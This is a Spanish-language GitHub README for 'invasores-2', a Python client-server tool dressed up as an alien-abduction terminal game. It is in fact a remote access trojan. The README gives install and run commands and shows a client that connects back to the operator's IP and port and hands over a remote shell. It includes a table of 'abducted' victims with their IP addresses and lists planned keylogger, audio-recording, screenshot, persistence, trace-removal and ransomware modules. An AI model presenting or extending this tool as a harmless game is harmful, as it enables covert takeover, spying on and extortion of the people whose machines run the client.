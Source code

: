 <p align="center">
    <img src="logos/alien1.png" height="300" width="400">

[![HitCount](http://hits.dwyl.io/shauryauppal/Socket-Programming-Python.svg)](https://github.com/Kirari-Senpai/invasores-2/) [![MadeIn](https://img.shields.io/badge/MADE%20IN-PYTHON-darkblue.svg)](https://github.com/Kirari-Senpai/invasores-2/)[![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com)

Se trata de un videojuego terminal. Tú eres un Furon (raza extraterrestre avanzada), una especie bélica, con tecnología extremadamente mortal. Por lo cual te diriges a la tierra para poder experimentar, manipular, atacar a otras especies, etc. Tú decides que hacer con ellos. Desde controlar a un simple humano para sacarle información, hasta utilizar un ejército completo para atacar a otros lugares (notorio de esta especie). Algo optativo, es que puedes evitar ser detectado por medio de una habilidad llamada Holobob, ya descubrirás como utilizarla, sólo sé paciente!. Este simple juego esta hecho para entornos reales (basada en el modelo Cliente-Servidor).

</p>


## Como descargar e instalar? ##

```
git clone https://github.com/Kirari-Senpai/invasores-2.git
cd invasores-2/
pip3 install -r requirements.txt
cd server/
```

## Empezar con la invasión ##

```
python3 invasores.py
```

## Persona curiosa ##

La curiosa persona se acerca a tu nave, pero todavía no sabe que le espera...

```
python3 humano.py <ip> <port>
```

## Que se puede hacer con invasores? ##

Antes de empezar, no podemos operar con alguien si no la abducimos, por tanto, se realizará lo siguiente:

- Abducción automática

Cuando hayamos raptado al individuo, podremos hacer diferentes cosas:

- Manejarlo a nuestro antojo medianta una shell
- Keylogger (en desarrollo)
- Grabar audio (en desarrollo)
- Screenshot (en desarrollo)
- Instalarse en el sistema (en desarrollo)
- Autoremoverse (en desarrollo)
- Ransomware (en desarrollo)


## Técnicas de captura de humanos ##

### Abducción automática ###

Tus compañeros de nave atraparán terrícolas, sin necesidad de que tu esperes por ellos. En pocas palabras, la tarea para aceptar conexiones, correrá en segundo plano.

### Abducción en vivo ###

Accediendo al menu de abducciones, podremos solicitar ver en vivo la captura de humanos.

![](gifs/abduccionLive.gif)

## Laboratorio ##

### Ver a los individuos que hayas raptado ###

Simplemente con tipear "listar" podrás ver a todas las personas que hayas capturado en el camino.

```
 Invasores (Laboratorio) --> listar


 Lista de personas secuestradas

╒══════╤═══════════════╤═══════════╤══════════╤══════════════════════════╤══════════════════╤══════════╕
│   ID │ Terricola     │ Pais      │ Ciudad   │ Direccion IP (Privada)   │ IPv4 (Publica)   │   Puerto │
╞══════╪═══════════════╪═══════════╪══════════╪══════════════════════════╪══════════════════╪══════════╡
│    1 │ kirari        │ USA       │ NYC      │ 192.168.0.15             │ 196.167.98.41    │    56608 │
╘══════╧═══════════════╧═══════════╧══════════╧══════════════════════════╧══════════════════╧══════════╛

```

### Manipulación alienígena ###

Permite tomar el control de un cuerpo en específico para operar. Esto se hace mediante el comando: 

```
manipular <id>
```

### Asesinar basura humana ###

Una vez que la persona no te haga más falta, puedes eliminarla de tu lista con el siguiente comando: 

```
matar <id>
```

## Módulos para operar con el individuo ###

Estas están disponibles en el menú de "control total", una vez se haya ejecutado el comando de Manipulación alienígena.

### Shell ###

Devuelve una shell. Acá un ejemplo:

```
 (kirari)> ls -la

total 20
drwxr-xr-x 3 kirari kirari 4096 nov 20 22:32 .
drwxr-xr-x 5 kirari kirari 4096 nov 19 23:54 ..
-rw-r--r-- 1 kirari kirari 4665 nov 21 02:10 humano.py
drwxr-xr-x 3 kirari kirari 4096 nov 20 22:33 Modulos

 Comando utilizado: ls -la

 (kirari)> pwd

/home/kirari/Escritorio/

 Comando utilizado: pwd

 (kirari)> 

```
### Keylogger ###

Graba cualquier movimiento que la víctima haga mediante pulsaciones en el teclado. Toda la información se registrará en un archivo.

### Grabar audio ###

Si quieres mantenerte informado de lo que sucede alrededor del capturado, entonces activa este módulo, para escuchar todos sus movimientos.

### Screenshot ###

Si quieres pruebas de que la víctima no te engaña, tóma capturas de pantalla para corroborar sus acciones.

### Instalarse ###

Podrás copiarte en los registros del sistema para obtener persistencia.

### Remover ###

Una vez que hayas acabado con la víctima, puedes eliminar todo tipo de rastro del bicho implantado en el sistema.

### Ransomware ###

Si la víctima se resiste a darte lo que quieres, sólo tóma de rehénes a sus personas más cercanas. Entonces podrás pedir lo que quieras a cambio de liberarlas. (Se recomienda usar este módulo en un entorno controlado).

## Destrucción total ##

Elimina a todas las personas capturadas mediante el comando: 

```
destruirlos
```


Advertencia: el mismo está en pleno desarrollo, por lo tanto, puede presentar errores durante su ejecución.
